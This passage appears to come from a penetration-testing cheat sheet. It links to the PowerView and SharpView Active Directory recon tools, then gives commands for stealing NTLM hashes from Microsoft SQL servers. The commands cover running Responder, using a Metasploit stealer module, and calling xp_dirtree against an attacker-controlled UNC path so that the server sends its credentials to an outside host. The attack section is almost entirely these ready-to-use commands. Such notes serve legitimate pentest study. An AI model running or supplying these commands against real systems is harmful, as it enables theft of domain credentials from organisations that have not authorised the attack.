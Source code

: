 ### PowerView / Sharpview

PowerView is a PowerShell tool to gain network situational awareness on Windows domains.

> **Github (archive):** https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
> **HTB Docs:** https://academy.hackthebox.com/course/preview/active-directory-powerview/powerviewsharpview-overview--usage

SharpView is a .NET port of PowerView

> **Github:** https://github.com/tevora-threat/SharpView
> **Cheatsheet:** https://csbygb.gitbook.io/pentips/windows/post-compromise-enum/powerview-sharpview

## Pentesting MS-SQL

### Steal NTLM hash

```bash
# use responder
└─$ sudo responder -I <IP> -w -d                            

# steal from msfconsole
use admin/mssql/mssql_ntlm_stealer
set SMBPROXY <IP>
exploit

# steal from ms-sql console
SQL> exec master.dbo.xp_dirtree '\\<IP>' 

```